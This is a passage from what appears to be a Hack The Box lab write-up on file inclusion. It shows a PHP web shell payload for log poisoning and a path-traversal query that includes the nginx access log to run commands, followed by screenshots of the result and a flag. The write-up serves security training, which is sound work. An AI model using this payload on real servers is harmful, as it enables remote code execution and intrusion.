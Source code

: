 
```
<?php system($_GET['cmd']) ?>
```

```
?log=../../../../../../var/log/nginx/access.log&cmd=pwd
```

To get the actual result you'll have to send the malicious payload a few times:

![Log Poisoning Result](/images/htb/file-inclusion/skills-assesment-log-poisoning-result.png)


![Skills Assessment Flag File](/images/htb/file-inclusion/skills-assessment-flag-file.png)

